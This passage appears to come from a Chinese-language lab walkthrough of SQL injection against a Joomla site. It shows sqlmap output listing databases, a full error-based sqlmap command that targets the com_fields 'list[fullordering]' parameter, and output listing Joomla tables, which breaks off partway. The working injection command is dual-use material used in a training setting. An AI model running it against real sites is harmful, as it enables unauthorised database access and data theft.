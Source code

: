 ```
[02:40:50] [INFO] retrieved: 'performance_schema'
[02:40:51] [INFO] retrieved: 'test'
available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test
```

#基于错误，数据库joomla，列出所有数据表
sqlmap -u "http://10.10.211.216/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --dbms mysql --technique E -D joomla --tables --batch
```
[02:55:45] [INFO] fetching tables for database: 'joomla'
Database: joomla
[72 tables]
+----------------------------+
| #__assets                  |
| #__associations            |
| #__banner_clients          |
| #__banner_tracks           |
| #__banners                 |
| #__categories              |
| #__contact_details         |
| #__content_frontpage       |
| #__content_rating          |
| #__content_types           |
| #__content                 |
| #__contentitem_tag_map     |
| #__core_log_searches       |
| #__extensions              |
| #__fields_categories       |
| #__fields_groups           |
| #__fields_values           |
| #__fields                  |
| #__finder_filters          |
| #__finder_links_terms0     |
| #__finder_links_terms1     |
| #__finder_links_terms2     |
| #__finder_links_terms3     |
| #__finder_links_terms4     |
| #__finder_links_terms5     |
| #__finder_links_terms6     |
| #__finder_links_terms7     |
| #__finder_links_terms8     |
| #__finder_links_terms9     |
| #__finder_links_termsa     |
| #__finder_links_termsb     |
| #__finder_links_termsc     |
| #__finder_links_termsd     |
| #__finder_links_termse     |
| #__finder_links_termsf     |
| #__finder_links            |
| #__finder_taxonomy_map     |
| #__finder_taxonomy         |
| #__finder_terms_common     |
| #__finder_terms            |
| #__finder_tokens_aggregate |
| #__finder_tokens           |
| #__finder_types            |
| #__languages               |
| #__menu_types              |
```